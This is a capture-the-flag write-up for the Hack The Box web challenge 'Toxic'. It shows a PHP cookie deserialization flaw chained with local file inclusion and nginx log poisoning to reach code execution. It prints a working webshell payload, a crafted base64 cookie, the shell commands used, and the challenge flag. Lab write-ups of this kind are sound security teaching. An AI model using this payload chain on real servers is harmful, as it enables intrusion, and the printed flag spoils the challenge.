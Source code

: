 # Writeup "Toxic"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                            </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/toxic              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-toxic-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                           </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                    </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-10                                              </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-11                                              </td></tr>
</table>

## Description

> Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

## Solution

We receive an IP and port to a server and a zip file containing the _PHP_ application deployed on the server. The application displays a web page about dart frogs; as mentioned in the challenge description, there is no user input on the page.

<p align="center">
   <img src="includes/toxic-01.png" />
</p>

Looking through the file `Dockerfile`, we see that the application lies in the `/www` directory and the flag lies in the root directory. Also, the bash script `entrypoint.sh` is called when the application is set up, so we take a look at this file, as well. In `entrypoint.sh`, we find the following lines:

``` bash
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

This appends an underscore and five random characters to `flag`, so the new filename will look like e.g. `flag_TJ9ai` or `flag_xQszw`. This will make it harder to get to the flag, because we have to find out the correct file name before accessing the file.

Continuing our review of the source code, we find some dubious code in the file `index.php`:

``` php
if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

First, the code checks if there is a cookie set. If there is none, a new `PageModel` object is created. Then, the cookie is read and unserialized[^2] without any checks or sanitation of what can effectively be considered a user input. This allows an attack _"PHP Object Injection"_[^3][^4]. Let's take a look at the definition of the `PageModel` class:

``` php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

`__destruct` is a _"PHP magic method"_ which is called automatically when an object is destroyed[^1]. Since the object is unserialized in `index.php` without assigning it to a variable, this method is called immediately.

In this case, the `__destruct` method includes the file specified in the member variable `$file`. Again, this is done without any sanitation which allows the user to alter the cookie and therefore the file which is included by the website. This is called a _File Inclusion_ attack[^5].

However, we do not know the file name of the flag; therefore, this is not yet enough. We need a way to look through the file system and obtain the new flag file name. First, we try to use the vulnerability to perform a _Remote File Inclusion_ (RFI) attack. As a test, we create the following PHP file and host it using the command `python -m http.server`:

```php
<?php echo shell_exec("whoami"); ?>
```

This does not work, however. Apparently, only a _Local File Inclusion_ (LFI) is possible. A web search for _"php lfi rce"_ leads us to a page describing how to use a LFI to perform a _Remote Code Execution_ (RCE) by using a technique called _"Log Poisoning"_[^6]. In a nutshell, we have to perform the following steps:
1. Find a log file where we can influence the content;
2. inject our PHP code into the log file;
3. include the log file in the website using the LFI vulnerability.

From the Dockerfile we know that the web server runs NGINX so we do a web search for _"nginx log path"_. This tells us that the standard location for the access log file is `/var/log/nginx/access.log`. Using the following commands, we create and encode a custom object for the cookie:

``` php
$o = new PageModel;
$o->file = "/var/log/nginx/access.log";
$c = serialize($o);
$c = base64_encode($c);
print $c;

Output: "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ=="
```

The cookie's value is replaced using the Firefox developer tools and the web site shows the contents of the log file:

<p align="center">
   <img src="includes/toxic-02.png" />
</p>

Now we need a way of injecting our PHP code into the log file. Since we can see that the log file contains the `User-Agent` string of all received HTTP requests, we decide to use this field for the injection. As payload we choose the following line:

``` php
<?php echo shell_exec($_GET['cmd']); ?>
```

This will execute any command that is passed to the page via the GET parameter `cmd`. We replace the `User-Agent` string using the Firefox developer tools again by right-clicking on the last GET request and choosing _"Edit and Resend"_:

<p align="center">
   <img src="includes/toxic-03.png" />
</p>

Success! By setting the `get` parameter, we can pass various shell commands to the server. First, let's find out the name of the flag file using the command `ls /`:

<p align="center">
   <img src="includes/toxic-04.png" />
</p>

So the file name is `flag_bHZeW`. Just one more step in order to get the flag itself using the command `cat /flag_bHZeW`:

<p align="center">
   <img src="includes/toxic-05.png" />
</p>

There we go!

```
HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
```

### Sources

[^1]: https://www.php.net/manual/en/language.oop5.magic.php
[^2]: https://www.php.net/manual/de/function.unserialize.php
[^3]: https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
[^4]: https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
[^5]: https://www.webmaster-tipps.de/php-sicherheit-local-file-inclusion-und-remote-file-inclusion/
[^6]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1
